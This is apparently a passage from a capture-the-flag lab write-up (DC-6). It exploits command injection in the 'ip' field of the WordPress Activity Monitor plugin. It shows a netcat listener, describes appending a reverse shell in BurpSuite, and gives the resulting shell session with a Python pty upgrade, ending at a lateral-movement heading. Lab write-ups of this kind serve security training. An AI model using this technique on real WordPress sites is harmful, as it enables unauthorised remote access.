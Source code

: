 # Exploit the Wordpress Activity Monitor plugin

## Tamper the request in BurpSuite

Opening the exploit file (html) shows that the "ip" field of the "tools > lookup" feature of "activity monitor" is vulnerable to command injection. Let's start a listener (`rlwrap nc -nlvp 4444`) and capture the request in BurpSuite. Modify the payload in BurpSuite to append a reverse shell as follows:

![activity-monitor.png](files/activity-monitor.png)

## Reverse shell

We now have a reverse shell:

~~~
kali@kali:/data/DC_6/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.161] 41564
which python
/usr/bin/python
python -c "import pty;pty.spawn('/bin/bash')"
~~~

# Lateral move

## www-data -> graham
